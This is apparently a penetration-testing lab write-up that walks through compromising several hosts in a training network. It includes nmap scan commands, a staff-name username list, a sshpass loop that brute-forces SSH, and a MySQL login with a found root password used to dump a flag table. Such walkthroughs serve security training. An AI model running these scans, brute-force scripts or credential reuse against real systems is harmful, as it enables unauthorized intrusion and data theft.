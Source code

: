 ```yaml
---
description: >-
  You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range).
  Your goal is to read the flag file on each machine.
---
```


# Black Box Test 2

## Discover live hosts on the network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oG portScan.grep
```

### Hosts Alive

| Host | OS |
| :--- | :--- |
| 172.16.64.81 \(cms.foocorp.io, static.foocorp.io\) | Linux |
| 172.16.64.91 | Linux |
| 172.16.64.92 | Linux |
| 172.16.64.166 | Linux |

## Open Ports and Running Services

### 172.16.64.81 \(flag in mysql\)

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 80 | http | Apache httpd 2.4.18 \(Ubuntu\) |
| 13306 | mysql | MySQL 5.7.25-0ubuntu0.16.04.2 |

### 172.16.64.91

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 80 | http | Apache httpd 2.4.18 \(Ubuntu\) |
| 6379 | redis | Redis key-value store |

### 172.16.64.92

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 \(Ubuntu Linux; protocol 2.0\) |
| 53 | 53 | dnsmasq 2.75 |
| 80 | http | Apache httpd 2.4.18 \(Ubuntu\) |
| 63306 | mysql | MySQL 5.7.25-0ubuntu0.16.04.2 |

### 172.16.64.166 \(flag under sabrina user\)

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 2222 | ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 \(Ubuntu Linux; protocol 2.0\) |
|  8080 | http | Apache httpd 2.4.18 \(Ubuntu\) |

## Machines

### 172.16.64.166

![](../.gitbook/assets/image%20%285%29.png)

```text
elizabeth 
Lopez
elizabethlopez
elopez
managingdirector
director
manager  
tara
baker
tarabaker
tbaker
designer
beckycasey
becky
casey
bcasey
project
manager 
projectmanager
randy
carlson
randycarlson
rcarlson
developer
pabloroberts
pablo
roberts
proberts
founder
bessiehammond
bessie
hammond
bhammond
programmer 
gerardomalone
gerardo
malone
gmalone
juniordesigner
junior
designer
sabrina 
summers
sabrinasummers
ssummers
analyst
```

```bash
#!/bin/sh

for user in $(cat users.txt); 
do
    echo "Trying '$user'..."
    sshpass -p CHANGEME ssh -p 2222 $user@172.16.64.166 2>/dev/null
    if [ $? -eq 0 ]; then
        exit
    fi
done;
```

```bash
sabrina@xubuntu:~$ cat flag.txt 
Congratulations! You have successfully exploited this machine.
Go for the others now.
```

```text
sabrina@xubuntu:~$ cat hosts.bak 
127.0.0.1       localhost
172.16.64.81    cms.foocorp.io
172.16.64.81    static.foocorp.io

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

### 172.16.64.81

![](../.gitbook/assets/image%20%286%29.png)

```text
john1john1:password123
peter:youdonotguessthatone5
```

### 172.16.64.92

```text
X-DB-Key: x41x41x412019!
X-DB-User: root
X-DB-name: mysql
```

![](../.gitbook/assets/image%20%284%29.png)

```bash
# Tried:
# mysql --host=172.16.64.92 --user=root --password=x41x41x412019! --port 63306 mysql
# Working:

mysql --host=172.16.64.81 --user=root --password=x41x41x412019! --port 13306 mysql
> show databases;
> use cmsbase;
> show tables;
+----------------------------+
| Tables_in_cmsbase          |
+----------------------------+
| flag                       |
| sqlmapfile                 |
| tbl_1_actions_log          |
| tbl_1_categories           |
| tbl_1_categories_relations |
| tbl_1_downloads            |
| tbl_1_files                |
| tbl_1_files_relations      |
| tbl_1_folders              |
| tbl_1_groups               |
| tbl_1_members              |
| tbl_1_members_requests     |
| tbl_1_notifications        |
| tbl_1_options              |
| tbl_1_password_reset       |
| tbl_1_users                |
| tbl_actions_log            |
| tbl_categories             |
| tbl_categories_relations   |
| tbl_downloads              |
| tbl_files                  |
| tbl_files_relations        |
| tbl_folders                |
| tbl_groups                 |
| tbl_members                |
| tbl_members_requests       |
| tbl_notifications          |
| tbl_options                |
| tbl_password_reset         |
| tbl_users                  |
+----------------------------+
30 rows in set (0.141 sec)

MySQL [cmsbase]> select * from cmsbase.flag
    -> ;
+----+------------------------------+
| id | content                      |
+----+------------------------------+
|  1 | Congratulations, you got it! |
+----+------------------------------+
1 row in set (0.141 sec)

```

